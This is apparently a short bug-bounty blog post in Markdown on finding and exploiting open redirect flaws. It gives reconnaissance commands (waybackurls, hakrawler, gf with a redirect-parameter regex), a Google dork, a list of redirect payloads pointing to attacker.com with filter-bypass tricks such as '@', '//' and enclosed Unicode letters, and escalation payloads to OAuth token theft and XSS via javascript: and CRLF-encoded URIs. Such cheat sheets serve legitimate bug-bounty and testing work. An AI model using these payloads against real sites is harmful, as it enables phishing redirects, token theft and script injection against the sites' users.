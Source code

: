```yaml
---
layout: post
title: Open Redirection Guide
categories: bughunting 
---
```


### Identify:
* [waybackurls](https://github.com/tomnomnom/waybackurls) + [hakrawler](https://github.com/hakluke/hakrawler) + [gf](https://github.com/tomnomnom/gf)
	
	*1*. ``cat subdomains | waybackurls | tee -a urls``
	
	*2*. ``cat subdomains | hakrawler -depth 3 -plain | tee -a urls``
	
	*3*. ``gf redirect urls``

	using ``redirect.json``:
```json
{
    "flags" : "-HanrE",
    "pattern" : "url=|rt=|cgi-bin/redirect.cgi|continue=|dest=|destination=|go=|out=|redir=|redirect_uri=|redirect_url=|return=|return_path=|returnTo=|rurl=|target=|view=|from_url=|load_url=|file_url=|page_url=|file_name=|page=|folder=|folder_url=|login_url=|img_url=|return_url=|return_to=|next=|redirect=|redirect_to=|logout=|checkout=|checkout_url=|goto=|next_page=|file=|load_file="
}
```
* Google dorks

``site:domain.com inrul:[PARAMETER]`` using the [parameter list](https://github.com/victoni/Bug-Bounty-Scripts/blob/master/open_redirection_parameters.txt)
* Manual inspection by navigating the webapp and intercepting the requests


### Exploit:
```
* ?redirect=http://example.com
* ?redirect=https://company.com.attacker.com
* ?redirect=https://company.com@attacker.com
* ?redirect=//attacker.com
* ?redirect=http://attacker.com#company.com
* ?redirect=http://attacker.com?company.com
* ?redirect=http://attacker.com/company.com
* ?redirect=http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ

Using special characters:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿ 。
```
## Escalating to other vulnerabilities:
 [Source](https://twitter.com/LooseSecurity/status/1120638007760117760)
```
Open Redirect + Miconfigured OAuth App => OAuth Token Stealing
Open Redirect + Filtered SSRF => SSRF
Open Redirect + CRLFi => XSS
Open Redirect + javascript URI => XSS
```

Escalate to XSS
* `` ?redirect=javascript:alert(1)``
* `` ?redirect=javascript:prompt(1)``

Escalate to XSS using CRLFi
* ``?redirect=java%0d%0ascript%0d%0a:alert(0)``
